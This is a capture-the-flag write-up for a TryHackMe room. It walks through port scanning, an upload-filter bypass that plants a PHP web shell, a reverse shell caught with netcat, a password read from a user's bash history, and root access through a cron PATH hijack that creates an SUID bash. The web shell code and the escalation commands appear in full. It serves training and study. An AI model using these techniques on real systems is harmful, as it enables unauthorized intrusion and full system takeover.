




# [Hacker vs Hacker v1.1](https://tryhackme.com/r/room/hackervshacker)

## Enumeration

We star enumarating the open port with **nmap**.

```shell
$sudo nmap -p- --open -n -Pn -sS --min-rate 2000 10.10.249.183
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-13 18:00 -05
Nmap scan report for 10.10.249.183
Host is up (0.69s latency).
Not shown: 55405 closed tcp ports (reset), 10128 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 51.09 seconds
```

We review the website in the port 80.



## File Upload Vulnerability

We can see that we have the option to upload a file, we upload a text file created with `echo "test" > test.txt` to test the upload.


When loading the file we are redirected to http://10.10.249.183/upload.php with the following message *Hacked! If you dont want me to upload my shell, do better at filtering!*. Let's review the source code.

## Command Injection



Apparently, for the upload, they only verify it using the *strops* function, which indicates the position. Then, the file will be uploaded if has a *.pdf* in the name.

We will upload the following file.

```shell
$ cat shell.pdf.php 
<?php
    $cmd = $_GET['cmd'];
    $output = shell_exec($cmd);
    echo "<pre>$output</pre>";
?>
```

We should find where the files are saved, let's use *gobuster*.

```shell
$ gobuster dir -u http://10.10.249.183/ -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.249.183/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/css                  (Status: 301) [Size: 312] [--> http://10.10.249.183/css/]
/cvs                  (Status: 301) [Size: 312] [--> http://10.10.249.183/cvs/]
/dist                 (Status: 301) [Size: 313] [--> http://10.10.249.183/dist/]
/images               (Status: 301) [Size: 315] [--> http://10.10.249.183/images/]
/index.html           (Status: 200) [Size: 3413]
/server-status        (Status: 403) [Size: 278]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

We find the cvs directory, if we enter it tells us *Directory listing disabled*, but the status code is 200. Checking with the exact name and using the parameter we see that the command injections works.



We use the reverse shell *PHP exec* from https://www.revshells.com/ url encoded.



We got the reverse shell.

```shell
$ sudo nc -lvnp 443
listening on [any] 443 ...
connect to [10.8.100.192] from (UNKNOWN) [10.10.249.183] 51592
whoami
www-data
```

Reviewing the users who hace a shell we see:

```shell
www-data@b2r:/var/www/html/cvs$ cat /etc/passwd | grep "sh$"
root:x:0:0:root:/root:/bin/bash
lachlan:x:1001:1001::/home/lachlan:/bin/sh
```

## User Privilege Escalation

Before becoming the root user we should switch to the user lachlan, in this case we achieve it by reviewing its history.

```shell
www-data@b2r:/var/www/html/cvs$ cd /home/lachlan
www-data@b2r:/home/lachlan$ ls -al
total 36
drwxr-xr-x 4 lachlan lachlan 4096 May  5  2022 .
drwxr-xr-x 3 root    root    4096 May  5  2022 ..
-rw-r--r-- 1 lachlan lachlan  168 May  5  2022 .bash_history
-rw-r--r-- 1 lachlan lachlan  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 lachlan lachlan 3771 Feb 25  2020 .bashrc
drwx------ 2 lachlan lachlan 4096 May  5  2022 .cache
-rw-r--r-- 1 lachlan lachlan  807 Feb 25  2020 .profile
drwxr-xr-x 2 lachlan lachlan 4096 May  5  2022 bin
-rw-r--r-- 1 lachlan lachlan   38 May  5  2022 user.txt
www-data@b2r:/home/lachlan$ cat .bash_history
./cve.sh
./cve-patch.sh
vi /etc/cron.d/persistence
echo -e "dHY5pzmNYoETv7SUaY\nthisistheway123\nthisistheway123" | passwd
ls -sf /dev/null /home/lachlan/.bash_history
www-data@b2r:/home/lachlan$ su lachlan
Password: thisistheway123
lachlan@b2r:~$ whoami
lachlan@b2r:~$ lachlan
```

To escalate privileges we achive it by reviewing the crontabs.

```shell
lachlan@b2r:~$ ls -al /etc | grep cron
drwxr-xr-x   2 root root       4096 May  5  2022 cron.d
drwxr-xr-x   2 root root       4096 May  5  2022 cron.daily
drwxr-xr-x   2 root root       4096 Feb 23  2022 cron.hourly
drwxr-xr-x   2 root root       4096 Feb 23  2022 cron.monthly
-rw-r--r--   1 root root       1042 Feb 13  2020 crontab
drwxr-xr-x   2 root root       4096 Feb 23  2022 cron.weekly
lachlan@b2r:~$ ls -al /etc/cron.d
total 28
drwxr-xr-x   2 root root 4096 May  5  2022 .
drwxr-xr-x 102 root root 4096 May  5  2022 ..
-rw-r--r--   1 root root  201 Feb 14  2020 e2scrub_all
-rw-r--r--   1 root root  814 May  5  2022 persistence
-rw-r--r--   1 root root  712 Mar 27  2020 php
-rw-r--r--   1 root root  102 Feb 13  2020 .placeholder
-rw-r--r--   1 root root  191 Feb 23  2022 popularity-contest
lachlan@b2r:~$ cat /etc/cron.d/persistence
PATH=/home/lachlan/bin:/bin:/usr/bin
# * * * * * root backup.sh
* * * * * root /bin/sleep 1  && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 11 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 21 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 31 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 41 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 51 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
```

In the file */etc/cron.d/persistence* we can see that the root user excecutes many statements, but the interesting thing is the PATH they declare, which has the directory */home/lochlan/bin* which we can include scripts.

```shell
bash-5.0$ cd /home/lachlan/bin
bash-5.0$ echo "#!/bin/bash" > pkill
bash-5.0$ echo "cp /bin/bash /bin/pwned" >> pkill
bash-5.0$ echo "chmod u+s /bin/pwned" >> pkill
bash-5.0$ cat pkill
#!/bin/bash
cp /bin/bash /bin/pwned
chmod u+s /bin/pwned
bash-5.0$ chmod +x pkill
bash-5.0$ ls -al /bin/pwned
-rwsr-xr-x 1 root root 1183448 Apr 14 00:26 /bin/pwned
bash-5.0$ /bin/pwned -p
bash-5.0$ whoami
root
```
The root flag is located in your directory.
